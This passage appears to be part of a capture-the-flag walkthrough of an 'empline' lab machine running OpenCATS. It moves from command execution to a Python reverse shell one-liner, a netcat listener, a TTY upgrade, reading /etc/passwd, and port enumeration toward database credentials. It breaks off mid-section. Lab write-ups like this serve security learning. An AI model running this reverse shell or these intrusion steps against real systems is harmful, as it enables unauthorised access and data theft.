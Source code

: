~~~
Linux empline 4.15.0-147-generic #151-Ubuntu SMP Fri Jun 18 19:21:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
-e 
$ pwd
/var/www/opencats/upload/careerportaladd
~~~

Now we can execute commands on the server.

## Reverse Shell

Now that we can execute commands, we can get a reverse shell. You can use a reverse shell payload like I did, or you can upload a reverse shell and execute it using the RCE.

`python3` is installed on the target machine, so I used a python reverse shell. Just change the IP in the payload down below and use it:

~~~
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
~~~

I started a listener (`rlwrap nc -lvnp 4444`) and executed the payload above using the RCE and got a shell on my listener as `www-data` and the first thing I did was spawning a TTY shell using a python one-liner:

~~~
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.85.162] 43842
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@empline:/var/www/opencats/upload/careerportaladd$
~~~

## www-data -> george

First I checked the users on the machine and there are two and we should probably switch to user `george`:

~~~
www-data@empline:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash
george:x:1002:1002::/home/george:/bin/bash
~~~

### Database Creds

After some enumeration, I found the credentials for the database running on port 3306:

~~~
www-data@empline:/$ ss -antlp
State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port    
LISTEN   0         80                  0.0.0.0:3306             0.0.0.0:*   <------ 
LISTEN   0         128           127.0.0.53%lo:53               0.0.0.0:*       
LISTEN   0         128                 0.0.0.0:22               0.0.0.0:*       
LISTEN   0         128                       *:80                     *:*       
LISTEN   0         128                    [::]:22                  [::]:* 
~~~
